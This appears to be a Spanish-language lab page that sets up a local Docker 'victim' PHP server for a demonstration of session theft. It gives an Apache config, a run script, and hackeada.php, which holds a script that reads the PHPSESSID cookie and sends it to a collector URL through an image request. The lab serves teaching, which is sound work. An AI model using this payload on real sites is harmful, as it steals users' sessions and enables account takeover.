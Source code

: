 php.conf
```bash
<FilesMatch ".+\.ph(ar|p|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
<FilesMatch ".+\.phps$">
    SetHandler application/x-httpd-php-source
    # Deny access to raw php sources by default
    # To re-enable it's recommended to enable access to the files
    # only in specific virtual host or directory
    Require all denied
</FilesMatch>
# Deny access to files without filename (e.g. '.php')
<FilesMatch "^\.ph(ar|p|ps|tml)$">
    Require all denied
</FilesMatch>

# Running PHP scripts in user directories is disabled by default
#
# To re-enable PHP in user directories comment the following lines
# (from <IfModule ...> to </IfModule>.) Do NOT set it to On as it
# prevents .htaccess files from disabling it.
#<IfModule mod_userdir.c>
#    <Directory /home/*/public_html>
#        php_admin_flag engine Off
#    </Directory>
#</IfModule>
```

run.sh
```bash
#!/usr/bin/env bash

# run.sh

# run the container in the background
# /data is persisted using a named container

docker run \
    --detach \
    --rm \
    -p8081:80 \
    --name="victima" \
    victima

```

Y dentro del directorio public_html, con los ficheros

hackeada.php
```bash
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local
<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://127.0.0.1:8080/public_html/robo-de-sesion.php?session_robada=" + c;
</script>

</body>
```